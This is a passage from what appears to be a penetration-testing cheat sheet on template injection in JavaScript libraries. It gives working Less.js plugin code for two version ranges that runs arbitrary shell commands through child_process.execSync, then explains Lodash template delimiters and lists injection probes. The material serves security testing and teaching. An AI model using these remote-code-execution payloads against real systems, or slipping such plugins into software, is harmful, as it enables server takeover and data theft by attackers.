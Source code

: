 version 2 example RCE plugin:

```javascript
functions.add('cmd', function(val) {
  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
});
```
version 3 and above example RCE plugin

```javascript
//Vulnerable plugin (3.13.1)
registerPlugin({
    install: function(less, pluginManager, functions) {
        functions.add('cmd', function(val) {
            return global.process.mainModule.require('child_process').execSync(val.value).toString();
        });
    }
})
```

---

## Lodash

[Official website](https://lodash.com/docs/4.17.15)

### Lodash - Basic Injection

How to create a template:

```javascript
const _ = require('lodash');
string = "{{= username}}"
const options = {
  evaluate: /\{\{(.+?)\}\}/g,
  interpolate: /\{\{=(.+?)\}\}/g,
  escape: /\{\{-(.+?)\}\}/g,
};

_.template(string, options);
```

- **string:** The template string.
- **options.interpolate:** It is a regular expression that specifies the HTML *interpolate* delimiter.
- **options.evaluate:** It is a regular expression that specifies the HTML *evaluate* delimiter.
- **options.escape:** It is a regular expression that specifies the HTML *escape* delimiter.

For the purpose of RCE, the delimiter of templates is determined by the **options.evaluate** parameter.

```javascript
{{= _.VERSION}}
${= _.VERSION}
<%= _.VERSION %>


{{= _.templateSettings.evaluate }}
${= _.VERSION}
<%= _.VERSION %>

```

